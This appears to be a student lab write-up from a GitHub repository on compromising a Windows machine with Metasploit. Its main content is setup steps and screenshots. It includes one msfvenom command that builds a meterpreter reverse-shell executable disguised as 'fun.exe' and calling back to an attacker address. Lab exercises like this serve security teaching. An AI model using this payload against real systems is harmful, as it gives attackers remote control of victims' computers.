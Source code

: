 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
## OUTPUT:



<img width="1017" height="833" alt="image" src="https://github.com/user-attachments/assets/207fc825-3f73-4be9-8d30-f990d72b9af7" />


<img width="652" height="221" alt="Screenshot 2025-10-30 093541" src="https://github.com/user-attachments/assets/06b8a74f-d2d1-4ca8-bf5b-54b289f8f7ba" />



Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:




<img width="678" height="383" alt="image" src="https://github.com/user-attachments/assets/9dd5a48d-1763-4f6b-b70e-9a3f5e41e3a0" />

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
